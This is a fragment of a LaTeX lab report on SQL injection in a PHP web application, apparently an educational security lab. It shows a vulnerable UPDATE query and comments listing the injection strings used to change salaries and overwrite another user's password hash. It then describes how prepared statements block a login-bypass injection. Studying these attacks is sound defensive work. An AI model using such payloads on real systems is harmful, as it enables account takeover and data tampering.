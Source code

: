 \documentclass[12pt,reqno]{amsart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
To recap the injections provided in this section, we present listing \ref{lst:2}.
\begin{figure}[h]
  \begin{lstlisting}[style=SQLStyle, firstnumber=1]
UPDATE credential 
SET
	/* any of these fields can be used for injection */
	nickname='$input_nickname', /* I have used this one in my examples */
	email='$input_email',
	address='$input_address',
	Password='$hashed_pwd',
	PhoneNumber='$input_phonenumber'
WHERE ID=$id;

/* Injection for Task 3.1
hi', salary='100001
*/

/* Injection for Task 3.2
boom', salary='1' WHERE name='Boby' --  
*/

/* Injections for Task 3.3
 ` OR OR --         (to cause syntax error)
boom', Password='c6efaf27673db4f7d2de52c0ab20a0655112cbad' 
	WHERE name='Boby' -- 
*/
\end{lstlisting}
  \caption{Instructions related to section 2.}
  \label{lst:2}
\end{figure}

\newpage
\section{Defending with Prepared Statements}
The provided laboratory included \code{safe\_home.php}, which implements the prepared statement defence in the home page. It also has \code{safe\_edit\_backend.php} which is a safe target for the edit profile HTML form. By modifying the frontend codes \code{index.html} and \code{unsafe\_edit\_frontend.php} files, we can change them to use the safe codes instead. Note that for these edits to take place we restart the Apache server.

First we try the injection to bypass the login screen, shown in figure \ref{fig:aa}.

\begin{figure}[h]
  \includegraphics[width=\linewidth]{img/SQL_SAFE_LOGIN.png}
  \caption{Attempting the injection from figure \ref{fig:2}, notice the injection on query parameters. It does not work, and instead we get ``Account does not exist'' message.}
  \label{fig:aa}
\end{figure}
\end{document}
